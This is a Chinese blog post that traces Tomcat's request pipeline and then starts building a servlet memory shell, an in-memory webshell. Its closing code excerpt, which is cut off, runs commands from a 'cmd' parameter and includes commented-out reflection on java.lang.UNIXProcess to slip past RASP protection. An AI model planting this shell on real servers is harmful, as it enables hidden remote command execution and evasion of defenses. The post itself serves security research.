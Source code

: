 ![image-20250220213148768](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250220213148768.png)

跟进到StandardContextValue.invoke

![image-20250220213317303](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250220213317303.png)

然后是取Wrapper

![image-20250220214748878](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250220214748878.png)

![image-20250220214816230](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250220214816230.png)

OK现在跟进到了StandardWrapperValve.invoke，在该方法内，先是调用wrapper.allocate()

![image-20250225130453564](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250225130453564.png)

allocate()内，如果满足if条件，会调用loadServlet，虽然这里不会进入这个if，但是可以提前看一下loadServlet的内容

![image-20250225130515447](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250225130515447.png)

调用了instanceManger.newInstance，显然是实例化servlet类，前面在webConfig把servlet从web.xml加载到了StandardContext，但是因为Tomcat懒加载，并没有立即进行实例化

>Tomcat具有懒加载的功能，启动Tomcat时，不会实例化servlet，等第一次访问servlet url时，才会调用`org.apache.catalina.core.DefaultInstanceManager#newInstance(java.lang.String)`进行实例化

![image-20250225130617354](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250225130617354.png)

回到StandardWrapperValve.invoke

调用了ApplicationFilterFactory.createFilterChain()去创建一个Filter链，然后在if块内，如果是异步分派就是调用doInternalDispatch，如果不是就直接调用filterChain.doFilter。这段在之后分析Filter内存马的时候还会见到

![image-20250220215002701](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250220215002701.png)

这段不用自己去手动调用



现在假设有运行jsp代码的场景，写一个jsp的servlet内存马

## 内存马构造

首先写一个正常的servlet类，直接copy HelloServlet即可

然后是修改其生命周期内能用的方法，servlet init->doGet->destroy，修改doGet为执行命令

给一个上次复现MRCTF的shell，有列目录、读文件、RCE、JNI绕过RASP版RCE四个功能，详情看中字使用

```java
            System.out.println(
                    "TomcatShellInject doFilter.....................................................................");
            String cmdParamName = "cmd";
            String cmd;
            if ((cmd = servletRequest.getParameter(cmdParamName)) != null){
////UNIXProcessImpl 绕过ProcessImpl.start、Runtime.exec RASP，详情搜索JNI
//            Class<?> cls = null;
//            try {
//                cls = Class.forName("java.lang.UNIXProcess");
//            } catch (ClassNotFoundException e) {
//                throw new RuntimeException(e);
//            }
//            Constructor<?> constructor = cls.getDeclaredConstructors()[0];
//            constructor.setAccessible(true);
//            String[] command = {"/bin/sh", "-c", cmd};
//            byte[] prog = toCString(command[0]);
//            byte[] argBlock = getArgBlock(command);
//            int argc = argBlock.length;
```